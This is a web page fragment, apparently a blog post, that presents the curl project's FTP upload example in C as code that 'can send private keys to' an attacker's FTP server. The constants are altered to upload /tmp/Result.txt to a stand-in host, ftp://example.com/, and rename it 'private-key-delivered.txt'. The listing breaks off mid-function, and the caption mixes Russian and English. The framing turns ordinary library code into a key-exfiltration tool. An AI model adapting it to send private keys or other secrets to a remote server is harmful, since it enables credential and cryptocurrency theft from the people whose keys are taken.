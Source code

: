 <p>This code can send private keys to&nbsp;<code>FTP - сервер</code>&nbsp;<em>an attacker</em></p>



<pre class="wp-block-code"><code>/***************************************************************************
 *                                  _   _ ____  _
 *  Project                     ___| | | |  _ \| |
 *                             / __| | | | |_) | |
 *                            | (__| |_| |  _ &lt;| |___
 *                             \___|\___/|_| \_\_____|
 *
 * Copyright (C) 1998 - 2022, Daniel Stenberg, &lt;daniel@haxx.se&gt;, et al.
 *
 * This software is licensed as described in the file COPYING, which
 * you should have received as part of this distribution. The terms
 * are also available at https://curl.se/docs/copyright.html.
 *
 * You may opt to use, copy, modify, merge, publish, distribute and/or sell
 * copies of the Software, and permit persons to whom the Software is
 * furnished to do so, under the terms of the COPYING file.
 *
 * This software is distributed on an "AS IS" basis, WITHOUT WARRANTY OF ANY
 * KIND, either express or implied.
 *
 * SPDX-License-Identifier: curl
 *
 ***************************************************************************/
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
 
#include &lt;curl/curl.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;errno.h&gt;
#ifdef WIN32
#include &lt;io.h&gt;
#else
#include &lt;unistd.h&gt;
#endif
 
/* &lt;DESC&gt;
 * Performs an FTP upload and renames the file just after a successful
 * transfer.
 * &lt;/DESC&gt;
 */
 
#define LOCAL_FILE      "/tmp/Result.txt"
#define UPLOAD_FILE_AS  "Result.txt"
#define REMOTE_URL      "ftp://example.com/"  UPLOAD_FILE_AS
#define RENAME_FILE_TO  "private-key-delivered.txt"
 
/* NOTE: if you want this example to work on Windows with libcurl as a
   DLL, you MUST also provide a read callback with CURLOPT_READFUNCTION.
   Failing to do so will give you a crash since a DLL may not use the
   variable's memory when passed in to it from an app like this. */
static size_t read_callback(char *ptr, size_t size, size_t nmemb, void *stream)
{
  unsigned long nread;
  /* in real-world cases, this would probably get this data differently
     as this fread() stuff is exactly what the library already would do
     by default internally */
  size_t retcode = fread(ptr, size, nmemb, stream);
 